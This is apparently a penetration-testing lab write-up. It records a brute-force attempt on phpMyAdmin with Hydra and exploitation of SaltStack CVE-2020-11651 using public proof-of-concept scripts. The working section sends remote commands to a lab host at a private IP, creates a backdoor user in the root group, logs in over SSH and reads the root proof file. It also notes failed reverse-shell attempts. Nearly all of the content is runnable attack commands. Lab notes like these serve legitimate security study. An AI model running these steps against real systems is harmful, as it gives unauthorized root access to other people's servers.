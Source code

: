 # Exploit
## Password Guessing
### Default Credentials
Did not work.
```bash
# mezzazine CMS
# admin:default
```

### Hydra
Did not work.
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form "/phpmyadmin/index.php?:pma_username=^USER^&pma_password=^PASS^:Cannot|without"

# output
NSTR
```

## CVE-2020-11651
### EDB-ID-48421
```bash
searchsploit saltstack
mkdir edb-id-48421
cd edb-id-48421
searchsploit -m 48421
python 48421.py ???
```

### jasperla POC
```bash
mkdir jasperla
cd jasperla
git clone https://github.com/jasperla/CVE-2020-11651-poc.git
cd CVE-2020-11651-poc
python ???
```

### dozernz POC
This works!
```bash
mkdir dozernz
cd dozernz
wget https://github.com/dozernz/cve-2020-11651.git
cd cve-2020-11651
sudo apt install python3-pip
pyenv global 3.9.5
pip install salt
# sudo tcpdump -i tun0 host 192.168.208.62
python CVE-2020-11651.py 192.168.208.62 master "ping -c2 192.168.49.208"
# this works, but reverse shell via nc did not (niether does bash)
python CVE-2020-11651.py 192.168.208.62 master "useradd -p $(openssl passwd -crypt password) -s /bin/bash -g 0 victor"
ssh victor@192.168.208.62
id # uid=1002(victor) gid=0(root) groups=0(root)
cat /root/proof.txt
```
